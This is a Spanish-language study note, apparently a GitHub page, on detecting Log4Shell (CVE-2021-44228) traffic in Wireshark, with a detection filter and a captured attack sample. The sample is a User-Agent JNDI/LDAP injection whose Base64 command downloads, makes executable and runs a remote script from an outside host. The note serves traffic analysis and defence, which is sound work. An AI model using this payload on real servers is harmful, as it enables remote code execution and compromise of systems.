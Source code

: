 
## Analyzing a Log4j Exploit with Wireshark (and how to filter for it) // Sample PCAP! BY Chris Greer
https://www.youtube.com/watch?v=O7VWtFtDvRg

## Ejemplo de Log4j en Wireshark
- Wireshark Room: Traffic Analysis -->http.cap
- Fichero que se adjunta en el vídeo de youtube.

# Log4Shell - Log4j
El ataque que explota la vulnerabilidad Log4j, conocido como "Log4Shell", es un tipo de vulnerabilidad de ejecución remota de código (RCE, Remote Code Execution). Esta vulnerabilidad se encuentra en la biblioteca de registro Log4j de Apache, que es ampliamente utilizada en aplicaciones Java.

La vulnerabilidad Log4Shell permite a un atacante remoto ejecutar código arbitrario en el servidor afectado simplemente enviando cadenas de texto especialmente diseñadas que son procesadas por Log4j. Estas cadenas maliciosas suelen ser enviadas a través de entradas de usuario que pueden ser registradas por Log4j, como cabeceras HTTP, mensajes de correo electrónico, o entradas de formularios web. Cuando Log4j procesa una cadena que incluye una referencia JNDI maliciosa a un servidor LDAP controlado por el atacante, el servidor vulnerable puede ejecutar código Java arbitrario suministrado por el atacante.

La gravedad de esta vulnerabilidad radica en la capacidad de los atacantes para ejecutar código de manera remota sin autenticación previa, lo que les permite tomar control total de los sistemas afectados, acceder a datos sensibles, instalar malware, y propagar el ataque dentro de redes corporativas.

La vulnerabilidad Log4Shell fue asignada con el identificador **CVE-2021-44228 y se considera crítica**. Su descubrimiento a finales de 2021 llevó a una respuesta urgente de la comunidad de ciberseguridad, con actualizaciones y parches emitidos rápidamente para mitigar el riesgo de explotación.


La vulnerabilidad de Log4j, se ajusta perfectamente a la **categoría A06:2021 - Componentes Vulnerables y Desactualizados del OWASP Top Ten 2021**. Esta categoría se centra en los riesgos asociados con el uso de componentes de software con conocidas vulnerabilidades de seguridad sin las debidas actualizaciones o parches. En el caso de Log4j, la biblioteca afectada por esta vulnerabilidad crítica es un componente de software ampliamente utilizado en aplicaciones Java para el registro de actividades.

El riesgo de utilizar componentes vulnerables y desactualizados como Log4j sin aplicar los parches de seguridad necesarios es significativo, ya que permite a los atacantes explotar estas vulnerabilidades para realizar ataques de ejecución remota de código, entre otros. Esto subraya la importancia de mantener todos los componentes de software actualizados y aplicar las mejores prácticas de gestión de dependencias y parches de seguridad recomendadas por OWASP y otros organismos de seguridad cibernética.


## Filtro wireshark
```
ip contains jndi
```
El filtro de Wireshark ip contains jndi se utiliza para buscar paquetes cuyo contenido en el nivel IP (Protocolo de Internet) incluye la secuencia de caracteres "jndi". Este tipo de filtro es útil para identificar intentos de explotación o actividad maliciosa relacionada con vulnerabilidades específicas que involucran a JNDI (Java Naming and Directory Interface).

En el contexto de la seguridad informática, "jndi" se ha vuelto particularmente relevante debido a vulnerabilidades como Log4Shell (CVE-2021-44228) en la biblioteca Log4j de Apache, donde un atacante puede inyectar referencias JNDI maliciosas en los registros para ejecutar código arbitrario de forma remota.

Utilizar ip contains jndi como filtro en Wireshark permite detectar paquetes que podrían estar intentando explotar esta clase de vulnerabilidades, mostrando cualquier paquete IP que contenga la cadena "jndi". Sin embargo, es importante tener en cuenta que este filtro podría no ser completamente efectivo para detectar todos los intentos de explotación relacionados con JNDI, ya que los ataques pueden emplear técnicas de ofuscación o codificación que no resultarían en una coincidencia directa con la cadena "jndi" en el nivel IP.

Este filtro sólo funcionará en un ataque al puerto 80 or open web. Pero no funcionará si se ataca el puerto 443 o una conexión TLS, ya que no podemos ver el texto en claro.



![](capturas/wireshark-http-analysis.png)



## Ejemplo de captura del tráfico de un ataque Log4j
```
User-Agent: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}\r\n

- User-Agent: Este es el campo del encabezado HTTP que normalmente indica qué navegador o cliente HTTP está haciendo la solicitud.
- ${jndi:ldap://...}: Esta es la parte crítica que explota la vulnerabilidad Log4Shell (CVE-2021-44228) en Log4j. Permite la ejecución remota de código a través de la inyección de una cadena maliciosa.
  - jndi: Java Naming and Directory Interface, una API de Java para servicios de directorio que permite a las aplicaciones Java descubrir y obtener datos o recursos usando un nombre.
  - ldap: Lightweight Directory Access Protocol, un protocolo para acceder y mantener servicios de directorio distribuidos.
  
- ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Esta URL LDAP apunta a un servidor controlado por el atacante (45.137.21.9 en el puerto 1389). El path que sigue especifica un comando codificado en Base64 que el servidor vulnerable intentará ejecutar.

- d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Este es el comando codificado en Base64. Decodificado, se traduce a una secuencia de comandos shell que realiza lo siguiente:
  - Descarga un script (probablemente malicioso) de http://62.210.130.250/lh.sh.
  - Cambia los permisos del script descargado para hacerlo ejecutable (chmod +x lh.sh).
  - Ejecuta el script descargado (./lh.sh).
```


Detalle del tráfico en el Log4Shell:
![](capturas/wireshark-log4shell.png)


### Analizamos la web que nos aparece con Virustotal
IP: 62.210.130.250
![](capturas/virustotal.png)





